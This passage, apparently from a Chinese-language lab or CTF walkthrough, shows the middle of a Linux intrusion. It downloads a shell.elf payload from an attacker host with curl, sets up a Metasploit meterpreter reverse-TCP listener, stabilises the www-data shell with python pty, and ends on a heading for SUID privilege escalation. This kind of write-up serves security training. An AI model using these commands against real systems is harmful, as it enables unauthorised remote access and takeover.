 ```
curl http://192.168.159.128:60312/shell.elf -o shell.elf
```

msf设置监听模块

```
use exploit/multi/handler

set payloads linux/x86/meterpreter_reverse_tcp 

set lhost 192.168.159.128

set lport 22333



msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  22333            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

```

反弹回shell之后，权限为www-date

利用python打开一个正常的交互式shell

```
python -c "import pty;pty.spawn('/bin/bash')"
```

查找suid提权
